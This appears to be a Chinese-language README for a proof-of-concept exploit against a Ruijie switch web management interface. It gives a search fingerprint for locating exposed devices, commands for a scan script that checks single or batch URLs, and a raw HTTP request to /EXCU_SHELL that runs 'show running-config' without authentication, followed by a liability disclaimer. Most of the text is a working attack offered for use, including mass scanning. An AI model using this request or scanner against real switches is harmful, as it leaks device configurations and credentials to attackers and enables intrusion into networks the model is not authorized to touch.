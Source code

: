 # 锐捷交换机 WEB 管理系统 EXCU_SHELL 信息泄露

锐捷交换机 WEB 管理系统 EXCU_SHELL信息泄露

## 指纹

body="img/free_login_ge.gif" && body="./img/login_bg.gif"

## 工具利用

python3 EXCU_SHELL_scan.py -u http://127.0.0.1:1111 单个url测试

python3 EXCU_SHELL_scan.py -f url.txt 批量检测

![poc](./poc.jpg)

```
GET /EXCU_SHELL HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.2852.74 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cmdnum: '1'
Command1: show running-config
Confirm1: n

```
![poc](./exp.jpg)



## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
